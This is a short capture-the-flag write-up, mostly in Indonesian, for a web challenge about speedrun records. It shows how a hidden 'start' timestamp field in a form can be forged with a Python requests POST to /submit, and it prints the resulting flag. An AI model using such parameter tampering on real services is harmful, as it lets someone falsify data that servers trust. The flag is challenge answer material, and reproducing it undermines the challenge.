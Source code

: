 Celeste Speedrunning Associationweb20704
I love Celeste Speedrunning so much!!! It's so funny to watch!!!

Here's my favorite site!

Author: paper

# Recon
Pada saat masuk webiste terdapat definisi chall :

Welcome to Celeste speedrun records!!!
Current record holders (beat them at /play for a flag!):
Old Lady: 0 seconds
Madeline: 10 seconds
Badeline: 10.1 seconds

Pada direktory : `https://mount-tunnel.web.actf.co/play`
Kalo kita melihat source code :
```js
<form action="/submit" method="POST">
  <input type="text" style="display: none;" value="1682888046.9222546" name="start" />
  <input type="submit" value="Press when done!" />
</form>
```
Perlu diingat form action merujuk `/submit` dengan method : `POST`.

So....?????

How To Solve?
```js
import requests

r = requests.post("https://chall/submit", data={"start":"1685888046.9222546"}) #change random value : 1685888046.9222546
print(r.text)
```

flag : `you win the flag: actf{wait_until_farewell_speedrun}`
